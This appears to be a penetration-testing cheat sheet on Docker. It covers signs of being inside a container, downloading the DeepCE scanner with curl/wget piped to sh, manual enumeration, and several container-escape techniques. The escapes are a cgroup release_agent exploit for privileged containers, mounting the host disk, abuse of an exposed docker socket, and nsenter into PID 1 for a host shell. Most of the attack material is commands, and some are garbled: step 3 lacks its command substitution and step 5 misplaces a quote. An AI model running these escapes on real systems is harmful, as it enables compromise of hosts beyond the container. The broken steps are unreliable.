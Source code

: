 # Docker Container

## Am I in a container?

* Hostname is something like `dcdd01356172` or a similar hex string
* root folder contains `.dockerenv` file
* executing `cat /proc/1/cgroup` returns docker strings
* There are few processes running and none of them are kernel spawned
* Some default \*nix commands such as wget, ps, ifconfig, ip are missing

## DeepCE

Automated tool for vulnerability scanning inside a Docker container.

See [https://github.com/stealthcopter/deepce](https://github.com/stealthcopter/deepce)

### Download

```
wget https://github.com/stealthcopter/deepce/raw/main/deepce.sh
curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -o deepce.sh

#python requests
python -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/main/deepce.sh").content)' > deepce.sh 
python3 -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/main/deepce.sh").content.decode("utf-8"))' > deepce.sh

#load in memory
wget -O - https://github.com/stealthcopter/deepce/raw/main/deepce.sh | sh
curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh | sh
```

## Manual Enumeration

### OS info

```
cat /etc/issue
cat /etc/*-release
uname -a
```

### Running processes

```
readlink -f /proc/*/exe    #link to executable file
cat /proc/*/comm           #console friendly process name (not always available)
```

### Partitions

```
cat /etc/fstab
fdisk -l
```

### Network

```
cat /proc/net/tcp
cat /proc/net/*
```

All IP addresses are printed as little-endian hexadecimal strings. For example:

IP address: `020011AC --> AC.11.00.02 --> 172.16.00.02`

Gateway mask: `0000FFFF --> FF.FF.00.00 --> 255.255.00.00`

## Container escape

### Privileged container exploit

**Requirements:**

* current user inside the container is root
* the container must be running with cap\_sys\_admin capability enabled. Verify by using the following command `capsh --print | grep sys_admin`&#x20;
* the `mount` command is present and enabled

Vulnerable containers are created with the following command

```
docker run --cap-add=SYS_ADMIN --security-opt apparmor=unconfined <img> <cmd>
```

**Procedure:**

1. mount cgroup folder in container: `mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x`
2. configure the kernel to enable execution of scripts when process is released: `echo 1 > /tmp/cgrp/x/notify_on_release`
3. find the container's file location on the host and store it in a variable: `host_path=sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
4. create an exploit file on target machine: `echo "$host_path/cmd" > /tmp/cgrp/release_agent`
5. insert code to be run in the exploit file. The output will be stored in a file called output.txt in the roof folder of the container: `echo" CMD > $host_path/output.txt" >> /exploit && chmod a+x /exploit`
6. create a process that instantly dies triggering our payload: `sh -c "echo $$ > /tmp/cgrp/x/cgroup.procs"`

### Mount host drive

**Requirements**

* current user inside the container is root
* the container must be running with cap\_sys\_admin capability enabled. Verify by using the following command `capsh --print | grep sys_admin`&#x20;
* the `mount` command is present and enabled
* it is possible to detect external drives. Verify with `fdisk -l`&#x20;

**Procedure:**

```
mkdir /tmp/sda
mount /dev/sda1 /tmp/sda
cd /tmp/sda
```

### Exposed deamon socket

**Requirements:**

* current user inside the container is root or part of docker group
* the file docker.socket is accessible inside the container. Test with `find / -type f -name docker.socket 2>/dev/null`

The exploit procedure is the same as detailed in the section about [Docker group exploits](docker.md#docker-group-exploits).

### Namespace exploitation

**Requirements:**

* current user inside the container is root
* the file `/sbin/init` is visible inside the container
* the `nsenter` command is available inside the container

**Procedure:**

Run the following command to spawn a new process with the same namespace as the process with PID 1 (init) while sharing memory, hostname and network space with the container. This process will be used to spawn a shell

```
nsenter --target 1 --mount --uts --ipc --net /bin/bash
```

